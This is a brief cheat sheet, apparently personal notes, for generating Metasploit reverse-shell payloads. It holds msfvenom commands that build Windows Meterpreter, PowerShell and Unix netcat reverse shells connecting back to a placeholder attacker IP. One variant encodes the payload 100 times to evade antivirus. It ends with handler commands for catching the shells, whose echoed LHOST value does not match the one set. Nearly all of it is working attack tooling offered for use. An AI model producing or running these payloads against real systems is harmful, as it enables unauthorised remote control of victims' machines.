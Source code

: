 ### [Payload Resources]
https://netsec.ws/?p=331  
https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/  
https://github.com/nccgroup/Winpayloads  
https://github.com/xephora/PayloadsAllTheThings  
https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom  
https://www.offensive-security.com/metasploit-unleashed/fun-incognito/  

# [Generating Payloads on Windows using Metasploit]

### [Regular Reverse TCP]
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -f exe > shell.exe
[Poly Morphic Reverse TCP]
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -e x64/shikata_ga_nai -i 100 -f exe > file.exe

Creating a reverse tcp netcat comamnd
msfvenom -p cmd/unix/reverse_netcat lhost=<IP> lport=<port> R
```

### [Unique Reverse TCP]
```
msfvenom -p windows/powershell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > pshell.exe
```

### [Handler]
msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp

PAYLOAD => windows/x64/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set LHOST eth0

LHOST => tun0

msf5 exploit(multi/handler) > set LPORT 32119

LPORT => 32119

msf5 exploit(multi/handler) > run

